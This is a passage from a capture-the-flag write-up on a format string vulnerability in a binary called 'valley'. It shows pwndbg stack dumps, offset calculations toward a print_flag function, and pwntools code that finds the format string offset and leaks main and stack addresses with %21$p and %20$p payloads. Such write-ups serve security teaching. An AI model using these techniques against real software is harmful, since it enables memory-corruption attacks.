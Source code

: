 With these two values leaked, we can calculate the offset to find the exact memory address. Our print_flag function is at 0x0000555555555269, so there is an offset of 0x0000555555555413 - 0x0000555555555269 = 426 bytes.

To find the exact address on the stack of the return address, we can dump out a bunch of hex values, starting from the base pointer
```
pwndbg> x/20xg $rbp
0x7fffffffde40:	0x00007fffffffde50	0x0000555555555413
0x7fffffffde50:	0x00007fffffffdef0	0x00007ffff7dc7488
0x7fffffffde60:	0x00007fffffffdea0	0x00007fffffffdf78
0x7fffffffde70:	0x0000000155554040	0x0000555555555401
0x7fffffffde80:	0x00007fffffffdf78	0x3b1973a1a71acfea
0x7fffffffde90:	0x0000000000000001	0x0000000000000000
0x7fffffffdea0:	0x00007ffff7ffd000	0x0000555555557d78
0x7fffffffdeb0:	0x3b1973a1a63acfea	0x3b1963e6f284cfea
0x7fffffffdec0:	0x00007fff00000000	0x0000000000000000
0x7fffffffded0:	0x0000000000000000	0x0000000000000001
```

Seems like our return address is at 0x7fffffffde48, which is 8 bytes away from the RBP at 0x7fffffffde40.

To execute a format string vulnerability, we'll use the python `pwntools` library which automates format string payloads. First, we'll need to know the offset of the first formatter we can control. `pwntools` gives us easy tools to do this:
```py
p = process("./valley")
print(p.recv())

def send_payload(payload):
    p.sendline(payload)
    return p.recv()
format_string = FmtStr(execute_fmt=send_payload)
print(format_string.offset)
```
The send_payload function sends a payload to the binary and returns the response it gives. `pwntools` can automatically send payloads to detect the offset, and it detected an offset of 6.

Next, we need to leak the function and stack pointers, and calculate the actual values.
```py
# leak address of main
p.sendline(b"%21$p")
leaked_main = p.recv().decode("utf-8").strip()[27:]
leaked_main = int(leaked_main, 16)
leaked_main -= 426 # offset

# leaked address of stack
p.sendline(b"%20$p")
leaked_stack = p.recv().decode("utf-8").strip()[27:]
leaked_stack = int(leaked_stack, 16)
leaked_stack -= 8 # offset

print(hex(leaked_main))
print(hex(leaked_stack))
```
